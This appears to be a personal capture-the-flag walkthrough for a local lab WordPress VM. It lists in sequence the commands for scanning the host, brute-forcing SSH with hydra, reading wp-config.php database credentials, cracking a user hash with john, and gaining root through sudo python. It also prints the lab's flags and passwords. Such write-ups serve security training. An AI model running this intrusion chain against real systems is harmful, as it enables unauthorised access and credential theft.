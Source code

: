 # Walkthrough

This file contains my notes as I completed this CTF. Use my notes to help guide you.


ifconfig to get IP

netdiscover -r 192.168.56.0/24 -i eth1

nmap 192.168.56.103

firefox -> 192.168.56.103 to find IP of target

httrack 192.168.56.103 to have offline version of all online files

grep "html" *.html

	service.html:			<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->

wpscan --url http://192.168.56.103/wordpress -evt -evp -eu

hydra 192.168.56.103 -L users.txt -P /usr/share/wordlists/rockyou.txt ssh

ssh michael@192.168.56.103

cd /var/www/ , cat flag2.txt

	flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

cd html/wordpress

cat wp-config.php (// ** MySQL settings - You can get this info from your web host ** //

/** The name of the database for WordPress */

define('DB_NAME', 'wordpress');


/** MySQL database username */

define('DB_USER', 'root');

/** MySQL database password */

define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */

define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */

define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */

define('DB_COLLATE', '');

mysql -u root -p R@v3nSecurity

show databases;

use wordpress;

show tables;

select * from wp_posts; flag3{afc01ab56b50591e7dccf93122770cd2}

select * from wp_users;

steven password hash: $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

exit 2x

touch stevenHash.txt ; nano stevenHash.txt //copy PW in there

john stevenHash.txt -> returns pink84

ssh steven@192.168.56.103 -> PW = pink84

sudo -l (shows that you can run python)

sudo /usr/bin/python

	import os

	os.system('/bin/bash')

now have root access

cd root, cat flag4.txt

flag4{715dea6c055b9fe3337544932f2941ce}













